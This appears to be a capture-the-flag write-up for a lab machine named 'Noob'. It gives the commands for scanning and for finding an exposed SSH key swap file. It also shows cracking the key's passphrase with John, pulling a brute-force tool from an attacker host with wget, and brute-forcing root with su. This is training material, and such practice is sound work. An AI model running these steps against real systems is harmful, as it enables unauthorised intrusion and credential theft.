










# Noob - Penetration Testing Report

**Machine:** Noob

**Difficulty:** Low

**IP Address:** 10.13.0.151

**Operating System:** Linux (Debian)

**Date:** March 13, 2026

---

## Executive Summary

Successfully compromised the Noob machine through SSH brute force attack using a custom wordlist, revealing a passphrase-protected SSH key. After cracking the passphrase with John the Ripper, privilege escalation was achieved through a simple password brute force.

**Attack Path:**
Port scanning -> Web enumeration ->  SSH key extraction -> Passphrase cracking -> SSH authentication -> Brute force -> Root access

---

## Reconnaissance & Enumeration

### Port Scanning

```bash
sudo nmap -T4 -sV -sS -O -sC --min-rate 5000 -p- 10.13.0.151
```



**Open Ports:**

| Port | Service | Version |
| --- | --- | --- |
| 22/tcp | SSH | OpenSSH 8.4p1 (Debian) |
| 80/tcp | HTTP | Apache httpd 2.4.56 (Debian) |

**Key Findings:**

- Debian-based system (Linux 4.x - 5.x kernel)
- MikroTik RouterOS 7.x detection (likely false positive)
- SSH and HTTP services exposed

---

### Web Enumeration

### Directory Brute Force

```bash
feroxbuster -u http://10.13.0.151 -w /usr/share/wordlists/dirb/common.txt -x pem,key,rsa,bak,txt,swp -t 40 -k --silent -C 404
```



**Discovered Resources:**

| Path | Type | Significance |
| --- | --- | --- |
| /icons/ | Directory | Default Apache icons |
| /index.html | File | Default Apache page |
| /id_rsa.swp | **File** | **Vim swap file - Critical!** |
| /notes.txt | File | Text file |

**Critical Discovery:** `/id_rsa.swp` - SSH private key backup.

---

## Exploitation

### SSH Key Extraction

**Accessing Swap File:**

```bash
curl http://10.13.0.151/id_rsa.swp -o noobhash.txt
```

**Key Analysis:** The private key is passphrase-protected (encrypted).

---

### SSH Key Passphrase Cracking

**Preparing for John the Ripper:**

```bash
chmod 600 noobhash.txt
```

**Converting SSH Key to John Format:**

```bash
ssh2john noobhash.txt > noob.txt
```


**Cracking the Passphrase:**

```bash
john noob.txt --wordlist=/usr/share/wordlists/rockyou.txt
```



**Passphrase Cracked:** `sandiego`

---

## Initial Access

### SSH Authentication

```bash
ssh -i noobhash.txt diego@10.13.0.151
```

Enter passphrase for key `noobhash.txt` : sandiego



**Successful Connection:**

```bash
id
# uid=1000(diego) gid=1000(diego) groups=1000(diego)
```

**Access Summary:**

- **User:** diego
- **Home Directory:** /home/diego
- **Shell:** /bin/bash

---

### User Flag

```bash
cat user.txt
# cd02a5a828de08123e3552ec8740a5e
```



---

## Privilege Escalation

### Enumeration

Checked diego's home directory for additional files:

```bash
ls -la
```

**Standard files found:**

- user.txt (flag)
- .bashrc, .bash_logout, .profile

**No obvious privilege escalation vectors in home directory.**

---

### Password Discovery

Open http server on `/usr/share/wordlists` with python3 to download rockyou.txt

**Attacker machine:**

```bash
python3 -m http.server 6979
```

**Victim machine:**

```bash
wget http://10.13.1.137:6979/rockyou.txt
```

### Brute Force Password Search

Automated search for root password in readable files:

```bash
while read pass; do 
  echo "$pass" | timeout 1 su root -c "whoami" 2>/dev/null | grep -q root && echo "FOUND: $pass" && break
done < rockyou.txt
```

**Command Breakdown:**

- `while read pass` - Reads each line from rockyou.txt
- `echo "$pass" | timeout 1 su root -c "whoami"` - Attempts su with password
- `grep -q root` - Checks if command succeeded
- `echo "FOUND: $pass"` - Prints password when found
- `break` - Stops loop on success



## **Alternative:**

Download git repo to attacker machine:

```bash
git clone https://github.com/d4t4s3c/suForce
```

and wget to victim:

```bash
wget http://10.13.1.137:6979/suForce
```



Start bruteforce:

```bash
chmod +x suForce
```

```bash
./suForce -u root -w rockyou.txt
```



---

### Root Access

```bash
su root
# Password: rootbeer
```

**Verification:**

```bash
id
# uid=0(root) gid=0(root) groups=0(root)

whoami
# root
```



**Root access achieved!**

---

## Proof of Compromise

### Root Flag

```bash
cd /root
cat root.txt
# 5d12e0bbb9e9b426ec9e945d440d8288
```



---

### Vulnerability Summary

| Vulnerability | Severity | Impact |
| --- | --- | --- |
| Exposed SSH Private Key (Vim swap file) | Critical | Complete user authentication bypass  |
| Weak SSH Key Passphrase | High | Passphrase crackable in <1 minute |
| Password Reuse/Similarity | Critical | Root password predictable from user password |
| Weak Root Password | Critical | Password in common wordlist (rockyou.txt) |
| Information Disclosure (notes.txt) | Medium | Hints about OPEN SSH KEY |

---

## Tools Used

| Tool | Purpose |
| --- | --- |
| Nmap | Port scanning and service detection |
| Feroxbuster | Web directory enumeration |
| cURL | File download from web server |
| ssh2john | SSH key to John hash conversion |
| John the Ripper | Passphrase cracking |
| suForce | Brute force root user |
| wget | file trasnfer |

---

## Conclusion

The Noob machine demonstrated multiple critical security failures: exposed SSH private keys, weak passphrases. The attack was straightforward, requiring only standard penetration testing tools and techniques. The machine lives up to its name these are fundamental security mistakes that should never occur in production environments.

**Time to Compromise:** ~20 minutes

**Difficulty:** Low (as advertised)

**Primary Vulnerabilities:** File exposure, weak passwords

---

**Happy Hacking!**